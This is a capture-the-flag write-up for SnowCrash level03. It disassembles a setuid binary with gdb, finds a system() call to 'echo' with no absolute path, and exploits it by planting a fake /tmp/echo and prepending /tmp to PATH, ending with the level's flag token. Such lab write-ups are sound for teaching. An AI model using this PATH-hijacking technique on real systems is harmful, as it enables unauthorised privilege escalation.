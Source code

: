 ## LEVEL 03

---

For this level, we have in the `level03` repository a file named `level03`. This file is an ELF file. The first thing I do is `cat` this file to have some useful information.

```shell
$ hexdump -C level03
[...]
000005e0  2f 75 73 72 2f 62 69 6e  2f 65 6e 76 20 65 63 68  |/usr/bin/env ech|
000005f0  6f 20 45 78 70 6c 6f 69  74 20 6d 65 00 00 00 00  |o Exploit me....|
[...]
00001020  00 00 00 00 47 43 43 3a  20 28 55 62 75 6e 74 75  |....GCC: (Ubuntu|
[...]
000012f0  5f 5f 75 69 64 5f 74 00  65 6e 76 70 00 2f 68 6f  |__uid_t.envp./ho|
00001300  6d 65 2f 75 73 65 72 2f  6c 65 76 65 6c 30 33 2f  |me/user/level03/|
00001310  6c 65 76 65 6c 30 33 2e  63 00 6c 6f 6e 67 20 6c  |level03.c.long l|
[...]
```

We have a few more pieces of information now:
1. This file calls `echo` to print "Exploit Me."
2. This file has been compiled by GCC.
3. The source file was `/home/user/level03/level03.c`.

Sadly, our user doesn't have access to the source file.

I need more information about what `level03` does. For that, I will use `gdb`, which is a debugger and reverse engineering tool.

```shell
$ gdb -q level03
Reading symbols from /home/user/level03/level03...done.
(gdb) disas main
Dump of assembler code for function main:
   0x080484a4 <+0>:	 push   %ebp
   0x080484a5 <+1>:	 mov    %esp,%ebp
   0x080484a7 <+3>:	 and    $0xfffffff0,%esp
   0x080484aa <+6>:	 sub    $0x20,%esp
   0x080484ad <+9>:	 call   0x80483a0 <getegid@plt>
   0x080484b2 <+14>: mov    %eax,0x18(%esp)
   0x080484b6 <+18>: call   0x8048390 <geteuid@plt>
   0x080484bb <+23>: mov    %eax,0x1c(%esp)
   0x080484bf <+27>: mov    0x18(%esp),%eax
   0x080484c3 <+31>: mov    %eax,0x8(%esp)
   0x080484c7 <+35>: mov    0x18(%esp),%eax
   0x080484cb <+39>: mov    %eax,0x4(%esp)
   0x080484cf <+43>: mov    0x18(%esp),%eax
   0x080484d3 <+47>: mov    %eax,(%esp)
   0x080484d6 <+50>: call   0x80483e0 <setresgid@plt>
   0x080484db <+55>: mov    0x1c(%esp),%eax
   0x080484df <+59>: mov    %eax,0x8(%esp)
   0x080484e3 <+63>: mov    0x1c(%esp),%eax
   0x080484e7 <+67>: mov    %eax,0x4(%esp)
   0x080484eb <+71>: mov    0x1c(%esp),%eax
   0x080484ef <+75>: mov    %eax,(%esp)
   0x080484f2 <+78>: call   0x8048380 <setresuid@plt>
   0x080484f7 <+83>: movl   $0x80485e0,(%esp)
   0x080484fe <+90>: call   0x80483b0 <system@plt>
   0x08048503 <+95>: leave
   0x08048504 <+96>: ret
(gdb) x/s 0x80485e0
0x80485e0:	 "/usr/bin/env echo Exploit me"
```

Now I know that the program must have a line like this: `system("/usr/bin/env echo Exploit me")`.

One more detail I found is that `level03` has `flag03` rights. So I need to change the line above to run the `getflag` command.

This command has a vulnerability because `echo` isn't called with an absolute path, so we can easily run the command we want with a symlink and a PATH variable changed.

First, I search for the `getflag` executable path.
```shell
$ level03@SnowCrash:/tmp$ find / -name "*getflag*" 2>/dev/null
/bin/getflag
/rofs/bin/getflag
```

Then I create a file to execute `getflag` and give full permissions to the file.
```shell
$ vim /tmp/echo
#!/bin/bash
/bin/getflag
$ chmod 777 /tmp/echo
```

And finally, I change the PATH by adding the `/tmp` path at the beginning, and I run the command.
```shell
$ export PATH="/tmp:$PATH"
$ ./level03
Check flag. Here is your token: qi0maab88jeaj46qoumi7maus
```

